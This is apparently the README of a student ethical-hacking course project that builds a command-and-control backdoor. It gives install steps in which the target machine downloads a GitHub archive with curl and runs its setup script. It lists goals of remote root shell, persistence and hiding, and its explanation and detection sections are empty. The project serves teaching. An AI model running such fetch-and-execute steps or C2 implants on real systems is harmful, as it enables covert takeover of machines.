 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install 
### Target Machine

```bash
curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
cd Command-Control-main
chmod +x setup.sh
./setup.sh
```

### Attack Machine

-   Install `flask`
-   Run the flask server    

```python    
export FLASK_APP=attacker-server.py
flask run --host={Server IP}
```

## How it works
## How it meets the requirements

1. Provide remote root shell access 
2. Persistence
3. Configuration
4. Authentication
5. Hiding

## Detection
